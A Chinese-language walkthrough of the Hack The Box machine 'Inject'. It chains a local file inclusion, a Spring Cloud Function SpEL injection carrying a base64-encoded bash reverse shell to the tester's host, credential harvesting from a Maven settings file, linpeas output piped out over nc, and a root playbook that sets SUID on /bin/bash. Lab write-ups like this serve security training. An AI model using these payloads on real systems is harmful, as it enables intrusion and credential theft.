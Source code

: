 ## Hack The Box {inject}关卡

Ip地址：

![image-20230603203105184](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603203105184.png)

直接访问IP地址拒绝访问，可能是80端口没开。

kali nmap扫一下：

![image-20230603203746134](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603203746134.png)

发现开了22端口和8080端口。

访问8080端口：

![image-20230603203624481](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603203624481.png)

扫了一圈都是静态页面，不过右上角有个upload，可以上传文件。

![image-20230603203712469](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603203712469.png)

除了图片其他文件都过滤了，不能上传webshell或者.htaccess。但是上传图片后图片名作为Get参数传入后端，就比较有意思了。

```url
http://10.10.11.204:8080/show_image?img=shell.png
```

BP抓包，看一下有没有文件包含（LFI）。

![image-20230603204308169](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603204308169.png)

果不其然，翻一下有没有敏感信息。

除了root还有两个用户。

![image-20230603204423359](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603204423359.png)

再翻一翻，目录下文件不多的话能看就全看完吧，信息收集真的很重要。

这里有一个pom.xml

![image-20230603204712669](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603204712669.png)

解释一下pom.xml是干嘛的：

主要包含了项目的基本信息，可以看到用了项目中都用了哪些组件。

![image-20230603205202807](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603205202807.png)

看上去是web app使用了spring的框架。可以通过查找谷歌来找到可用的漏洞。

![image-20230603210020247](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603210020247.png)

国内也有一篇讲的不错的：https://www.cnblogs.com/9eek/p/16113603.html

具体的利用方式看👆文章。



通过Spring Cloud Rce 反弹shell。

本机瑞士军刀监听9999端口：

![image-20230603210523013](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603210523013.png)

构造Payload：

防止空格分割命令字符串和意想不到的命令解释方式，把payload base64编码一下：

https://bewhale.github.io/tools/encode.html

![image-20230603211406984](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603211406984.png)

```java
T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE2LjUvOTk5OSAwPiYxJw==}|{base64,-d}|{bash,-i}")
```

写入**spring.cloud.function.routing-expression**字段，发包即可反弹shell。

![image-20230603210921634](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603210921634.png)

本地收到了反弹过来的shell:

![image-20230603211525530](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603211525530.png)

反弹过来的shell太难用而且还没法自动补全，通过python升级一下shell。



方法如下：

参考：https://www.cnblogs.com/sainet/p/15783539.html

在反向的shell有python的情况下：

```shell
which python
#or 
which python3
```

执行：

```python
python3 -c "import pty; pty.spawn('/bin/bash')"
#这段代码是在Python中使用pty模块创建一个交互式的bash终端。pty.spawn()函数会启动一个新的进程，并将其连接到一个伪终端（pseudo-terminal），然后将标准输入、标准输出和标准错误输出重定向到该伪终端。
#设置环境变量
export SHELL=bash
export TERM=xterm-256color #允许 clear，并且有颜色
```

ctrl+z暂停shell

```shell
stty raw -echo;fg
#键入reset
```

![image-20230603211809743](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603211809743.png)

查找输入frank的文件：

![image-20230603212220456](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603212220456.png)

通过`cat /home/frank/.m2/settings.xml`找到用户phil的密码。

![image-20230603212332261](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603212332261.png)

su切换用户到Phil，拿到第一个flag。

本机启一个python web服务器上传linpeas.sh到靶机：

```shell
#先切换到要上传文件的目录
python3 -m http.server
```

靶机shell使用weget下载文件：

```shell
wget 10.10.16.5:8000/linpeas.sh
```

![image-20230603212911397](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603212911397.png)

运行linpeas.sh 并将结果传到本地：

```shell
#本地
ncat -lvnp 8888 |tee result.txt
```

```shell
#靶机
sh linpeas.sh | nc 10.10.16.5 8888
```

本地使用`less -r result.txt`带颜色阅读结果（也可以在靶机shell上直接用这个命令看，但是太卡）。

![image-20230603214402650](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603214402650.png)

在insteresting中发现playbook，并且是root权限。

![image-20230603213322666](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603213322666.png)

写xml通过python服务器和wget传到靶机。

playbook的路径为**/opt/automation/tasks**，上传到这里会自动运行

```shell
#赋予/bin/bash suid权限，
#s：即运行/bin/bash时被授予程序所有者到权限，也就是root
#u：所有用户都可以通过/bin/bash获得root权限
chomd u+s /bin/bash

```

下载完成

![image-20230603214601584](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603214601584.png)

等待自动运行即可

![image-20230603214656609](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603214656609.png)

![image-20230603214718220](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603214718220.png)

提权成功，拿到system flag。
